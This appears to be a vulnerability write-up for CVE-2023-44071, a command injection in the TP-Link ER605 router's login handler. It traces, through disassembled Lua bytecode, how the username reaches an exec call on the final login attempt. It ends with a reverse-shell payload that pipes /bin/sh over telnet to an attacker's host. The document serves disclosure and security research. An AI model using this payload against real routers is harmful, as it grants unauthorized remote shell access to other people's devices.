


# TP-Link ER605 Command injection


## Assigned CVE

> CVE-2023-44071

## Affected versions

> ER605(UN)_V1_1.3.0 Build 20230511, ER605(UN)_V2_2.1.2 Build 20230210

## analyze

> Download the vulnerable version and extract the firmware directly using unblob



> Checking the file system, it is openwrt, so directly locate luci for code audit. By searching for dangerous functions, it is located that /usr/lib/lua/luci/controller/login.lua actually has an exec function in the login lua file. In luci, luci.sys.exec is used to execute system commands.



> Since the decompiled code did not successfully identify the exec function, I could only use `luadec -dis` to disassemble it, so the following is all assembly code, which is a bit difficult to read. Locate the exec function
```
         ...
  180 [-]: GETGLOBAL R20 K16      ; R20 := string
  181 [-]: GETTABLE  R20 R20 K54  ; R20 := R20["format"]
  182 [-]: LOADK     R21 K55      ; R21 := "ubus call ievent addx \'{\"module\":\"%s\",\"eid\":\"%s\",\"errcode\":\"%s\",\"attrs\":\"{\\\"userName\\\":\\\"%s\\\",\\\"loginType\\\":%d,\\\"userIP\\\":\\\"%s\\\",\\\"retryCnt\\\":%d}\"}\'"
  183 [-]: GETUPVAL  R22 U11      ; R22 := U11
  184 [-]: GETUPVAL  R23 U12      ; R23 := U12
  185 [-]: GETUPVAL  R24 U13      ; R24 := U13
  186 [-]: MOVE      R25 R7       ; R25 := R7
  187 [-]: GETUPVAL  R26 U14      ; R26 := U14
  188 [-]: MOVE      R27 R9       ; R27 := R9
  189 [-]: GETTABLE  R28 R18 K42  ; R28 := R18["attempts"]
  190 [-]: CALL      R20 9 2      ; R20 := R20(R21 to R28)
  191 [-]: GETTABLE  R21 R3 K56   ; R21 := R3["exec"]
  192 [-]: MOVE      R22 R20      ; R22 := R20
  193 [-]: CALL      R21 2 1      ;  := R21(R22) // command injection
         ...
```

> It can be seen that the string.format string formatting function is used in line 181. It is guessed that string.format is used to format `"ubus call ievent addx \'{\"module\":\"%s\",\"eid\":\"%s\",\"errcode\":\"%s\",\"attrs\":\"{\\\"userName\\\":\\\"%s\\\",\\\"loginType\\\":%d,\\\"userIP\\\":\\\"%s\\\",\\\"retryCnt\\\":%d}\"}\'"` It can be seen that the userName may be controllable, but how to receive the username?

```
    0 [-]: NEWTABLE  R1 0 0       ; R1 := {} (size = 0,0)
    1 [-]: GETGLOBAL R2 K0        ; R2 := require
    2 [-]: LOADK     R3 K1        ; R3 := "luci.sauth"
    3 [-]: CALL      R2 2 2       ; R2 := R2(R3)
    4 [-]: GETGLOBAL R3 K0        ; R3 := require
    5 [-]: LOADK     R4 K2        ; R4 := "luci.sys"
    6 [-]: CALL      R3 2 2       ; R3 := R3(R4)
    7 [-]: GETGLOBAL R4 K0        ; R4 := require
    8 [-]: LOADK     R5 K3        ; R5 := "luci.model.checktypes"
    9 [-]: CALL      R4 2 2       ; R4 := R4(R5)
   10 [-]: GETUPVAL  R5 U0        ; R5 := U0
   11 [-]: GETTABLE  R5 R5 K4     ; R5 := R5["decode"]
   12 [-]: GETTABLE  R6 R0 K5     ; R6 := R0["data"]
   13 [-]: CALL      R5 2 2       ; R5 := R5(R6)
   14 [-]: GETTABLE  R6 R5 K6     ; R6 := R5["params"]
   15 [-]: GETTABLE  R7 R6 K7     ; R7 := R6["username"] //Get the value of username and store it in R7
   16 [-]: GETTABLE  R8 R6 K8     ; R8 := R6["password"]
   17 [-]: GETTABLE  R9 R3 K9     ; R9 := R3["getenv"]
   18 [-]: LOADK     R10 K10      ; R10 := "REMOTE_ADDR"
   19 [-]: CALL      R9 2 2       ; R9 := R9(R10)
   20 [-]: LOADNIL   R10 R10      ; R10 := nil
   21 [-]: GETTABLE  R11 R4 K11   ; R11 := R4["check_ip_in_lan"]
   22 [-]: MOVE      R12 R9       ; R12 := R9
   23 [-]: CALL      R11 2 2      ; R11 := R11(R12)
   24 [-]: NOT       R11 R11      ; R11 := not R11
   25 [-]: LOADNIL   R12 R12      ; R12 := nil
                ...
```

> In line 15, require is used to receive username and store it in R7. R7 is used in line 186. Now we can guess that we only need to change username to shell command when logging in to inject it?

> Of course we failed, but why? Did the username come from somewhere else? Looking further into the code I found some clues!

```
         ...
  176 [-]: GETTABLE  R20 R18 K42  ; R20 := R18["attempts"]
  177 [-]: GETUPVAL  R21 U4       ; R21 := U4
  178 [-]: EQ        0 R20 R21    ; if R20 == R21 then goto 180 else goto 194
  179 [-]: JMP       14           ; PC += 14 (goto 194)
         ...
```
> When R20 equals R21 we jump to 180, where exec is executed, so what is this?

```

  157 [-]: GETUPVAL  R20 U4       ; R20 := U4
  158 [-]: GETTABLE  R21 R18 K42  ; R21 := R18["attempts"]
  159 [-]: SUB       R20 R20 R21  ; R20 := R20 - R21 
  160 [-]: SETTABLE  R1 K45 R20   ; R1["attemptsAllowed"] := R20
  161 [-]: TEST      R11 0        ; if R11 then goto 163 else goto 170
  162 [-]: JMP       7            ; PC += 7 (goto 170)

```

> Continue to look forward and you can see what operations are performed on R20 and R21 in line 158. You can see attemptsAllowed below, so it may be the number of logins allowed, because when testing login, the system will remind you how many login attempts are left.

> That's right, we won the bet✌️！Indeed, when we try to log in for the tenth time, which is the last chance, we change the username to shellcommand. We will get a beautiful shell🫡！

```sh
'`rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet ip port > f`'
```

## Vido

https://drive.google.com/file/d/1bXSqmImmRc7TIJ8HjFDIc1s0EDJuQpEz/view?usp=sharing